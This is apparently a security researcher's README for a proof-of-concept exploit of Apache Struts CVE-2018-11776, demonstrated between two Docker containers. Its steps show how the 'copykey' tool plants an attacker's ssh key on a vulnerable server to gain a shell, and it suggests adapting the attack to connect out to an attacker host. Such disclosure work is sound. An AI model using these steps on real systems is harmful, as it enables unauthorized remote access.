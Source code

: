 # Remote code execution in Apache Struts (CVE-2018-11776)

This directory contains a proof-of-concept exploit for a remote code execution vulnerability in [Apache Struts](https://struts.apache.org/). The vulnerability was fixed in versions 2.3.35 and 2.5.17.

To demonstrate the PoC in a safe environment, we will use two docker containers connected by a docker network bridge to simulate two separate computers: the first is the Struts server and the second is the attacker's computer. The Struts server uses Struts version 2.5.16, which contains the vulnerability.

We have tried to make the `Dockerfile`'s for the server and attacker as simple as possible, to make it clear that we have used vanilla [Ubuntu 18.04](http://releases.ubuntu.com/18.04/) with no unusual packages installed.

Because we have Struts running in docker with no graphics, it isn't convenient to pop a calculator. So, instead, we will use the vulnerability to get a shell on the server. The PoC is a little simplistic because it assumes that the server has its ssh port 22 exposed to the public internet. A more realistic attack would probably involve getting the server to connect out to a webserver controlled by the attacker. It would be straightforward to modify this PoC to do that.

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```
docker network create -d bridge --subnet 172.16.0.0/16 struts-demo-network
```

## Struts server setup

Build the docker image:

```
cd struts-server
docker build . -t struts-server --build-arg UID=`id -u`
```

Start the container:

```
docker run --rm --network struts-demo-network --ip=172.16.0.10 -h struts-server --publish 8080:8080 -e DISPLAY=$DISPLAY -v /tmp/.X11-unix:/tmp/.X11-unix -i -t struts-server
```

Inside the container, start Struts and sshd. The reason for starting sshd is that we are going to use it to get a shell on the Struts server. We think it is realistic for sshd to be running because it is very widely used by system administrators for remote access.

```
./apache-tomcat-9.0.12/bin/catalina.sh start
sudo service ssh start  # sudo password is "x"
```

At this point, you can check that Struts is running by visiting [http://127.0.0.1:8080/struts2-showcase](http://127.0.0.1:8080/struts2-showcase) in your browser. (We exposed port 8080 on the docker container.)

## Attacker setup

Build the docker image:

```
cd struts-attacker
docker build . -t struts-attacker
```

Start the container:

```
docker run --rm --network struts-demo-network --ip=172.16.0.11 -h struts-attacker -i -t struts-attacker
```

Inside the container, use `copykey` to copy the attacker's ssh key into the server's `authorized_keys` file. Then use `ssh` to login.

```
./src/copykey http://172.16.0.10:8080/struts2-showcase
ssh victim@172.16.0.10
```

We have a shell!

Alternatively, you can start a calculator like this:

```
./src/startcalc http://172.16.0.10:8080/struts2-showcase
```
